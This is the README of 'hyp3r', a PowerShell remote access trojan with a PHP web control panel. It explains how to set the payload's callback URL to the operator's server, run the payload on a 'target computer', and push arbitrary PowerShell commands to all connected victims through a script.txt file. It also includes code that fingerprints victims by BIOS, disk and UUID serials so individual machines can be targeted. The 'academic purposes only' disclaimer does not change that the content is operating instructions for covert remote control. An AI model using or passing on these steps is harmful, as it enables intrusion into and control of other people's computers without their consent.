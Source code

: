 # hyp3r

<img src=https://upload.wikimedia.org/wikipedia/commons/2/2f/PowerShell_5.0_icon.png>

## hyp3r is a basic RAT written in powershell.

**DISCLAIMER: THIS PROJECT IS FOR ACADEMIC PURPOSES ONLY. THE DEVELOPERS TAKE NO RESPONSIBILITY FOR ILLEGAL USAGE AND/OR POTENTIAL HARMS.**

<hr>

## Requirements
  - PHP 8.0.2 (might work on older versions as well).
  - apache web server.
  - powershell version 5.1 (might work on older versions as well) installed on the target computer for cmdlets to run.

## Features
  - webGUI.
  - live target status.
  - remote shell execution.
  - multi-target support (the script can handle as many targets as your server can).
  - simple and easy to customize scripts.

## Notes
  - the timezone of both the server and the payload are set to GTB Standard Time so take that into account if you want to modify the inner workings of the script.
  - remember to modify the parameters inside the payload (`http.ps1`) to suit your needs.

## Installation

### 1. Clone this repository

You can use git to clone this repository or download .zip file from GitHub.

```bash
git clone https://github.com/xze3n/hyp3r.git
cd hyp3r/
```

### 2. Configure
  - Copy the contents of the `apache` folder to your webserver's page folder.
  - Edit lines `2`, `3` and `4` inside `http.ps1` as follows: 

```powershell
$verurl = 'http://your_website_url_or_ip/script.txt'
$url = 'http://your_website_url_or_ip'
$stop = 'the syntax of your choice to force stop the payload on the target machine'
```

  - Save and close the file. The installation is now complete!

## Usage

#### 1. Start your webserver.
#### 2. Run the powershell payload on the target computer.
#### 3. Open `localhost` inside a browser to see the active connections.

#### To run commands on the target computer(s) open the file called `script.txt` inside your webserver's page folder and modify its contents
  - Example:
```powershell
[System.Console]::Beep(1000,300)
```

  -the syntax above will result in a short *beep* given out by the target
### Notes:
  - The commands or scripts you write inside `script.txt` must be powershell code (obviously).
  - If you have multiple targets that listen to the same server the commands inside `script.txt` will be ran by all of the computers listening.
  - If you want to run a command only on one of the targets you will have to get a little creative:

```powershell
if($env:COMPUTERNAME -eq "TARGET-PC") {
	echo "now it will only be executed by targets with the user TARGET-PC"
}
```
  - If the `COMPUTERNAME` identifier is way to simple for your needs and it brings up problems you can use the scripts unique identifier composed of the biosid hddid and uuid of the target computer

```powershell
$a=Get-WmiObject win32_bios | Format-List SerialNumber | out-string; $id_bios=$a.split(' ')[2].Trim(); #bios id
$b=wmic diskdrive get serialnumber; $id_hdd=$b.split('\n')[2].Trim(); #hdd id
$c=Get-WmiObject -Class Win32_ComputerSystemProduct | Select-Object -Property UUID | out-string;$id_uuid=$c.split(' ')[64].Trim() #uuid
$ids=$ids=$id_bios, $id_hdd, $id_uuid; $ids=[system.String]::Join("_", $ids);
if($ids -eq "UNIQUE_IDENTIFIER") {
	doStuff()
}
```


  - You can get the UNIQUE_IDENTIFIER of a computer from the `data.txt` file inside the webserver's page folder: 
  - eg. `CND83492ZZ_69BCTDGFT_760BD1B8-5170-E821-A4C3-1063E5C2E22F`.
